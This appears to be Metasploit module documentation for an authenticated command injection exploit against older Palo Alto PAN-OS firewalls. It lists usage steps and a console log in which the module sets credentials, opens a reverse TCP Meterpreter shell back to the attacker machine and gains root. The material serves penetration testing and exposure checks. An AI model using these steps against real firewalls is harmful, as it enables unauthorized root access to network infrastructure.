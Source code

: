 This module exploits an authenticated OS Command Injection vulnerability in PAN-OS versions: <10.0.1, <9.1.4 and <9.0.10

## Vulnerable Application

A Palo Alto Firewall demo can be requested at the following [link](https://www.paloaltonetworks.com/company/request-demo)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module 
1. Receive a meterpreter session

## Scenario: PAN-OS 10.0.0

```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Authenticating...
[+] Successfully obtained api key
[*] Exploiting...
[*] Sending stage (3020772 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:51132) at 2022-08-16 09:01:47 -0400
[*] Command Stager progress - 100.00% done (1326/1326 bytes)
f 
meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```


